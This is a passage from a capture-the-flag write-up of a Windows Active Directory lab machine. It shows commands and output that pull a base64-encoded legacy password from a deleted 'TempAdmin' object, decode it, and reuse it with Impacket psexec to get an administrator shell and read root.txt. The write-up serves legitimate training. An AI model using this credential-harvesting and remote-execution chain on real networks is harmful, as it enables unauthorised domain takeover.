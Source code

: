 ```bash
*Evil-WinRM* PS C:\Users\arksvc\Documents> Get-ADObject -SearchBase "CN=Deleted Objects,DC=Cascade,DC=Local" -IncludeDeletedObjects -Filter {ObjectClass -eq "user"} -Properties *

<SNIP>
cascadeLegacyPwd                : YmFDVDNyMWFOMDBkbGVz
CN                              : TempAdmin
<SNIP>
DisplayName                     : TempAdmin
DistinguishedName               : CN=TempAdmin\0ADEL:f0cc344d-31e0-4866-bceb-a842791ca059,CN=Deleted Objects,DC=cascade,DC=local
<SNIP>
ObjectClass                     : user
ObjectGUID                      : f0cc344d-31e0-4866-bceb-a842791ca059
<SNIP>
sAMAccountName                  : TempAdmin
<SNIP>
```

This time the password is just base64-encrypted:

```bash
$ echo 'YmFDVDNyMWFOMDBkbGVz' | base64 -d
b<REDACTED>s
```

The email found earlier let us know that the password for `TempAdmin` was the same password as of the "normal admin account", so we can use them to achieve full domain compromise and read the `root.txt` file:

```bash
$ psexec cascade.local/administrator@10.10.10.182
Impacket v0.12.0.dev1+20231027.123703.c0e949fe - Copyright 2023 Fortra

Password:
[*] Requesting shares on 10.10.10.182.....
[*] Found writable share ADMIN$
[*] Uploading file jcdcxKpm.exe
[*] Opening SVCManager on 10.10.10.182.....
[*] Creating service Hssb on 10.10.10.182.....
[*] Starting service Hssb.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32> type c:\users\administrator\desktop\root.txt
b<SNIP>1
```

